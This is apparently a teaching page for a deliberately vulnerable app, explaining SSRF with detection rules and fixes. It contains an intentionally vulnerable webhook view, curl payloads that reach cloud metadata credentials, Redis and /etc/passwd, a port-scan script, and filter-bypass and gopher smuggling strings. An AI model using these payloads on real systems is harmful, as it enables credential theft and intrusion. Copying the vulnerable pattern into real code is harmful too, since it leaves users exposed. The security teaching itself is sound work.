

# Server-Side Request Forgery (SSRF)

**Server-Side Request Forgery (SSRF)** is a vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing. This can expose internal services, cloud metadata, or enable attacks on other systems.

## Overview

| Attribute | Value |
|-----------|-------|
| **CWE** | [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html) |
| **OWASP** | A10:2021 - Server-Side Request Forgery |
| **Severity** | High to Critical (CVSS 7.5-9.8) |
| **Cloud Impact** | Critical (metadata access) |

## How It Works



### Vulnerable Code Pattern

```python
# VULNERABLE: User controls URL
def fetch_url(request):
    url = request.GET['url']
    response = requests.get(url)
    return HttpResponse(response.content)
```

### Attack Example

```bash
# Access internal services
curl "http://example.com/fetch?url=http://localhost:8080/admin"

# Access cloud metadata (AWS)
curl "http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Port scanning
curl "http://example.com/fetch?url=http://192.168.1.1:22"
```

## VulnShop Implementation

### Location: Webhook Tester

**File:** `webhooks/views.py:15-35`

```python
import requests
from django.http import JsonResponse

def test_webhook(request):
    if request.method == 'POST':
        webhook_url = request.POST.get('url')
        payload = request.POST.get('payload', '{}')

        # VULNERABLE: SSRF - no URL validation
        try:
            response = requests.post(
                webhook_url,
                data=payload,
                timeout=10,
                headers={'Content-Type': 'application/json'}
            )
            return JsonResponse({
                'status': response.status_code,
                'response': response.text[:1000]
            })
        except Exception as e:
            return JsonResponse({'error': str(e)}, status=500)
```

**Attack URL:** `/webhooks/test/`

**Exploits:**

```bash
# Access AWS metadata
curl -X POST http://localhost:8000/webhooks/test/ \
  -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/&payload={}"

# Access internal admin
curl -X POST http://localhost:8000/webhooks/test/ \
  -d "url=http://localhost:8000/admin-panel/users/&payload={}"

# Access internal Redis
curl -X POST http://localhost:8000/webhooks/test/ \
  -d "url=http://127.0.0.1:6379/&payload=INFO"

# File read via file:// protocol
curl -X POST http://localhost:8000/webhooks/test/ \
  -d "url=file:///etc/passwd&payload={}"
```

## Attack Scenarios

### 1. Cloud Metadata Access

```bash
# AWS
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE_NAME]

# GCP
http://metadata.google.internal/computeMetadata/v1/
http://169.254.169.254/computeMetadata/v1/

# Azure
http://169.254.169.254/metadata/instance?api-version=2021-02-01

# DigitalOcean
http://169.254.169.254/metadata/v1/
```

### 2. Internal Network Scanning

```python
# Attacker script
import requests

for port in [22, 80, 443, 3306, 5432, 6379, 8080]:
    url = f"http://vulnerable.com/fetch?url=http://192.168.1.1:{port}"
    try:
        r = requests.get(url, timeout=2)
        print(f"Port {port}: {r.status_code}")
    except:
        print(f"Port {port}: timeout/error")
```

### 3. Internal Service Access

```bash
# Kubernetes API
http://kubernetes.default.svc/
http://10.0.0.1:443/api/

# Docker API
http://127.0.0.1:2375/containers/json

# Consul
http://127.0.0.1:8500/v1/agent/members
```

## Detection by Tool

### Pysa Detection

**Rule Code:** 5005

```python
# models/http_sinks.pysa
def requests.get(
    url: TaintSink[SSRF],
    params = ...,
    **kwargs
): ...

def requests.post(
    url: TaintSink[SSRF],
    data = ...,
    json = ...,
    **kwargs
): ...

def urllib.request.urlopen(
    url: TaintSink[SSRF],
    data = ...,
    timeout = ...,
    **kwargs
): ...
```

### CodeQL Detection

**Query:** `ssrf.ql`

```ql
class SsrfConfig extends TaintTracking::Configuration {
  SsrfConfig() { this = "SsrfConfig" }

  override predicate isSource(DataFlow::Node source) {
    source instanceof RemoteFlowSource
  }

  override predicate isSink(DataFlow::Node sink) {
    exists(Call call |
      call.getFunc().(Attribute).getName() in ["get", "post", "put", "delete", "head", "patch"] and
      call.getFunc().(Attribute).getObject().(Name).getId() = "requests" and
      sink.asExpr() = call.getArg(0)
    )
    or
    exists(Call call |
      call.getFunc().(Attribute).getName() = "urlopen" and
      sink.asExpr() = call.getArg(0)
    )
  }
}
```

### Semgrep Detection

**Rule:** `ssrf.yml`

```yaml
rules:
  - id: ssrf-requests
    mode: taint
    message: >
      SSRF vulnerability: User-controlled URL in HTTP request.
      Validate URLs against an allowlist of trusted domains.
    severity: ERROR
    languages: [python]
    metadata:
      cwe: "CWE-918"
      owasp: "A10:2021"
    pattern-sources:
      - pattern: request.GET[...]
      - pattern: request.POST[...]
      - pattern: request.GET.get(...)
      - pattern: request.POST.get(...)
    pattern-sinks:
      - pattern: requests.get($URL, ...)
        focus-metavariable: $URL
      - pattern: requests.post($URL, ...)
        focus-metavariable: $URL
      - pattern: urllib.request.urlopen($URL, ...)
        focus-metavariable: $URL
```

## Remediation

### 1. URL Allowlist (Recommended)

```python
from urllib.parse import urlparse

ALLOWED_DOMAINS = [
    'api.example.com',
    'webhook.example.com',
    'cdn.example.com',
]

def is_allowed_url(url):
    try:
        parsed = urlparse(url)

        # Check scheme
        if parsed.scheme not in ['http', 'https']:
            return False

        # Check domain against allowlist
        if parsed.netloc not in ALLOWED_DOMAINS:
            return False

        return True
    except:
        return False

def test_webhook(request):
    url = request.POST.get('url')

    if not is_allowed_url(url):
        return JsonResponse({'error': 'URL not allowed'}, status=400)

    response = requests.post(url, ...)
    return JsonResponse({'status': response.status_code})
```

### 2. Block Internal IPs

```python
import ipaddress
from urllib.parse import urlparse
import socket

BLOCKED_RANGES = [
    ipaddress.ip_network('10.0.0.0/8'),
    ipaddress.ip_network('172.16.0.0/12'),
    ipaddress.ip_network('192.168.0.0/16'),
    ipaddress.ip_network('127.0.0.0/8'),
    ipaddress.ip_network('169.254.0.0/16'),  # Link-local / cloud metadata
    ipaddress.ip_network('0.0.0.0/8'),
]

def is_internal_ip(hostname):
    try:
        ip = ipaddress.ip_address(socket.gethostbyname(hostname))
        return any(ip in network for network in BLOCKED_RANGES)
    except:
        return True  # Block if resolution fails

def is_safe_url(url):
    try:
        parsed = urlparse(url)

        # Only allow http/https
        if parsed.scheme not in ['http', 'https']:
            return False

        # Block internal IPs
        if is_internal_ip(parsed.hostname):
            return False

        return True
    except:
        return False
```

### 3. DNS Rebinding Protection

```python
import socket
import requests
from requests.adapters import HTTPAdapter

class SafeResolver(HTTPAdapter):
    def __init__(self, *args, **kwargs):
        self.resolved_ips = {}
        super().__init__(*args, **kwargs)

    def send(self, request, **kwargs):
        # Resolve hostname once and validate
        parsed = urlparse(request.url)
        hostname = parsed.hostname

        if hostname not in self.resolved_ips:
            ip = socket.gethostbyname(hostname)
            if is_internal_ip(ip):
                raise ValueError(f"Blocked internal IP: {ip}")
            self.resolved_ips[hostname] = ip

        return super().send(request, **kwargs)

# Usage
session = requests.Session()
session.mount('http://', SafeResolver())
session.mount('https://', SafeResolver())
response = session.get(user_url)
```

### 4. Network Segmentation

```yaml
# Docker Compose - Isolated network
services:
  web:
    networks:
      - frontend
    # No access to internal services

  internal-api:
    networks:
      - backend
    # Not accessible from web

networks:
  frontend:
  backend:
    internal: true
```

## Detection Comparison

| Tool | Detected | Method | Notes |
|------|:--------:|--------|-------|
| Pysa | ✅ | Taint tracking | All HTTP libraries |
| CodeQL | ✅ | Dataflow analysis | Comprehensive |
| Semgrep | ✅ | Taint mode | Pattern matching |

## SSRF Bypass Techniques

### URL Encoding

```
http://127.0.0.1 → http://%31%32%37%2e%30%2e%30%2e%31
```

### Alternative IP Representations

```
http://127.0.0.1
http://2130706433       # Decimal
http://0x7f000001       # Hex
http://0177.0.0.1       # Octal
http://127.1            # Shortened
http://[::1]            # IPv6
```

### DNS Rebinding

```
1. Attacker controls DNS for evil.com
2. First request: evil.com → legitimate IP (passes validation)
3. Second request: evil.com → 127.0.0.1 (bypasses validation)
```

### Protocol Smuggling

```
gopher://127.0.0.1:6379/_*1%0d%0a$4%0d%0aINFO%0d%0a
dict://127.0.0.1:6379/INFO
```

## Testing Checklist

- [ ] URL preview features
- [ ] Webhook functionality
- [ ] File import from URL
- [ ] PDF generators
- [ ] Image processors
- [ ] API integrations
- [ ] OAuth callbacks
- [ ] SVG/XML processors

## References

- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918](https://cwe.mitre.org/data/definitions/918.html)
- [PortSwigger SSRF](https://portswigger.net/web-security/ssrf)
- [PayloadsAllTheThings - SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
